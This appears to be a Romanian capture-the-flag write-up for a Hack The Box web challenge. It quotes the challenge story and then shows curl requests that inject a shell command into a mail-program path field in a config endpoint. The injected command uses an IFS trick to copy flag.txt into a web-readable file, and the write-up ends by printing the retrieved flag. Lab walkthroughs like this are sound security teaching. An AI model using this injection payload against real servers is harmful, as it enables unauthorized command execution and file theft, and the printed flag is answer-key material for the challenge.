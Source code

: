 Sarcina:
```
In the dead of night, an eerie silence envelops the town, broken only by the faintest of echoes—whispers in the void.
A phantom mailer is sending out silent commands, unseen and unheard, manipulating systems from the shadows.
The townsfolk remain oblivious to the invisible puppeteer pulling their strings. Legends hint that sending the right silent message back could reveal hidden secrets.
Can you tap into the darkness, craft the perfect unseen command, and shut down the malevolent force before it plunges the world into chaos?
```

Acesam sarcina noastră și verificam ce-ne oferă acest site:

![alt text](../image/VW_1.png)

AHA este am văzut care este punctul de intrare este o vulnerabilitate de tipul `Commond Injection`:

```
curl -X POST http://94.237.58.171:57966/update -d "from=G&email=support%40void-whispers.htb&sendMailPath=%2Fusr%2Fsbin%2Fsendmail%3BIFS%3D%24%27%5Cn%27%3B%2Fbin%2Fcat%24IFS%2Fflag.txt%3E%2Fwww%2Fflag_output.txt&mailProgram=sendmail" 
{"message":"Config updated successfully!","status":"success"} 
```
Dupa ce am injectat comanda verificam fișierul `config.json` ca să verificăm dacă comanda a fost injectată:
```
curl http://94.237.58.171:57966/config.json
{"from":"G","email":"support@void-whispers.htb","sendMailPath":"\/usr\/sbin\/sendmail;IFS=$'\\n';\/bin\/cat$IFS\/flag.txt>\/www\/flag_output.txt","mailProgram":"sendmail"}
```
Acesăm fișierul care conține și flagul:
```
curl http://94.237.58.171:57966/flag_output.txt
HTB{c0mm4nd_1nj3ct10n_4r3_3457_70_f1nD!!_6ac6367a04880c5fb3f7802fd994f833}
```
Flagul este: `HTB{c0mm4nd_1nj3ct10n_4r3_3457_70_f1nD!!_6ac6367a04880c5fb3f7802fd994f833}`